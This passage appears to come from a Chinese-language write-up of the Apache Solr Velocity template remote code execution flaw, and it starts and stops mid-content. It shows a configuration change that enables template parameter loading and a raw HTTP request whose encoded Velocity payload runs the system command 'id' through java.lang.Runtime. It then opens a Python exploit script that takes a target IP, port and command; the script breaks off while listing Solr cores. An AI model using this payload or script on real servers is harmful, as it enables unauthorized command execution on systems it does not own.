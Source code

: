     {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solrresource.loader.enabled": "true",
        "paramsresource.loader.enabled": "true"
      }
    }

#### 2、执行系统命令

    GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
    Host: localhost:8983

### 使用脚本检测

    auth: @l3_W0ng
    version: 1.0
    function: Apache Solr RCE via Velocity template
    usage: python3 script.py ip [port [command]]
                   default port=8983
                   default command=whoami
    note:
    Step1: Init Apache Solr Configuration
    Step2: Remote Exec in Every Solr Node
    """


    import sys
    import json
    import time
    import requests


    class initSolr(object):

        timestamp_s = str(time.time()).split('.')
        timestamp = timestamp_s[0] + timestamp_s[1][0:-3]

        def __init__(self, ip, port):
            self.ip = ip
            self.port = port

        def get_nodes(self):
            payload = {
                '_': self.timestamp,
                'indexInfo': 'false',
                'wt': 'json'
            }
            url = 'http://' + self.ip + ':' + self.port + '/solr/admin/cores'

